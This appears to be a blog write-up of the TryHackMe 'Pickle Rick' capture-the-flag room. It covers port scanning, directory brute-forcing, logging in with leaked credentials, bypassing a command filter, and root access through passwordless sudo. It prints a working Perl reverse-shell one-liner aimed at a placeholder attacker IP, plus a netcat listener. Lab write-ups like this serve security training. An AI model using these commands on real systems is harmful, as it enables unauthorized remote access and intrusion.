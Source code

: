 ```yaml
---
title: 'Pickle Rick'
permalink: /writeups/2024/01/pickle-rick/
tags:
  - CTF
  - TryHackMe
  - Hacking
---
```


🚩

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Begin the box by setting up directory for project under ~/pickle-rick-ctf, also created a directory for nmap. at ~/pickle-rick-ctf/nmap. This is just to easily store and remove the information and files gathered during the CTF.

Using nmap we can begin gathering information about the target.

```bash
nmap -sV -sC -O $ip -oN nmap/initial
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-16 19:23 EDT
Nmap scan report for 10.10.178.231
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 0b:eb:d9:e4:65:7d:72:1a:d0:a1:fd:c3:88:2c:ee:82 (RSA)
|   256 77:b4:2c:d4:88:15:ca:7f:d5:fb:2d:ec:d7:d5:41:37 (ECDSA)
|_  256 a5:7f:5f:33:47:d7:d8:f2:04:c3:7e:c8:8e:f6:89:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/16%OT=22%CT=1%CU=38185%PV=Y%DS=2%DC=I%G=Y%TM=652DC6
OS:17%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SEQ(SP=104%GCD=1%ISR=10A%TI=Z
OS:%CI=I%TS=8)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11N
OS:W7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508S
OS:T11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=4
OS:0%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.95 seconds
```

First of all we can see the machine is running 2 ports. Port 22 & 80 indicating a http web server is running as well as OpenSSH on port 22.

We can begin to look at the site to see what is going on.

![](/images/pr1.png)

Site returns a page indicating that Rick needs help from Morty to turn himself back into a human. As he was a pickle, classic Rick.

By viewing the HTML source code we can see that rick has left a note that his username is R1ckRul3s - Now we know Ricks username but we don’t know what this username is for or the password.

Next I’m going to use nikto to attempt to try and find any outdated software versions or files/directories that could be exploited.

```bash
nikto -url $ip | nikto-output.log
```

![Untitled](/images/pr2.png)

Nikto showed us that the version of Apache appears to be out of date, there is a login page at /login.php and some other stuff.

Whilst nikto is doing it’s work I’m also going to user gobuster to try and find any hidden directories using a wordlist provided in /usr/share/wordlists.

```bash
gobuster -u $ip -w=/usr/share/wordlists/directory-list-1.0.txt -x php,sh,txt
```

Gobuster will brute force the directories and hopefully give us some results which we can use to find more information about the target machine.

![Untitled](/images/pr3.png)

Gobuster has given us a few pages to check out including the same login page shown by nikto as well as portal.php, ./php, an assets directory and finally robots.txt.

Opening robots.txt we can see the text `Wubbalubbadubdub` this could be a password of some kind or just Rick being Rick.

Trying the combination of R1ckRul3s and Wubbalubbadubdub on the login.php page is correct and we have successfully logged into the admin panel.

![Untitled](/images/pr4.png)

Let’s try and explore the different pages to see if we can find anything interesting. All the links return a GIF screen indicating that only the real Rick can view these pages.

![Untitled](/images/pr5.png)

The commands section however has a blank box in which we can execute code and the return is shown back to us.

![Untitled](/images/pr6.png)

Running ls in the commands panel displays the files within the directory.

![Untitled](/images/pr7.png)

Using cat to display `Sup3rS3cretPickl3Ingred.txt` returns an error that the command is disabled to make it harder. This means we will have to find another way to view the files contents.

Using both head and tail is also forbidden so instead we can try other methods of displaying. One way is to use;

```bash
grep . Sup3rS3cretPickl3Ingred.txt
```

Grep is not disabled and returns the answer to the first clue in the CTF.

You could also try writing a script that echos the contents of the file line by line but grep is much cleaner in this situation.

We need to find a way to give us a more stable shell and not rely on the web interface to try and navigate the file system (This is possible and you can complete the challenge by doing so). To do this we can use a reverse shell.

We can try by using netcat but the string “cat” will be caught by the checking system used by the site to prevent the usage of cat. Using the shorthand nc also yields nothing.

Next we can try and use perl or python to try and return an output.

```bash
perl -e "print 'test'"
```

This time we get the output of “test” so we know we can use perl in some way to give us a reverse shell.

Using [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to give us a premade shell command to work with.

```bash
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

We can modify this command to insert our IP address and our chosen port to establish a connection.

```bash
nc -lvnp PORT
```

Let’s start a listener with netcat and set it listening on the same port you used for the command.

Now we can insert the script into the command panel and hopefully establish a reverse shell to make it easier to navigate the filesystem and get more answers.

![Untitled](/images/pr8.png)

Success!

Once in we can run the whoami command to see that we are user www-data. We can also see what permissions we have using the command;

```bash
sudo -l
```

This command shows us that we may run any command with no password required. This is fantastic news.

![Untitled](/images/pr9.png)

After snooping around in the file directory we can access the /home directory and see there are two users on the system. Ubuntu and Rick. Entering Ubuntu we see nothing in there. Going into Rick shows us a file named “second ingredients”.

```bash
cat "second ingredients"
```

Returns the second answer to our CTF.

Now we need to find the final ingredient to turn Rick back into a human.

Using the fact we can use any command with no password means we can view the root directory using the following command;

```bash
sudo ls /root/
```

This shows us the following;

![Untitled](/images/pr10.png)

This must be the third ingredient required.

```bash
sudo cat 3rd.txt
```

We get our final ingredient and finish our CTF adventure with Rick and Morty.
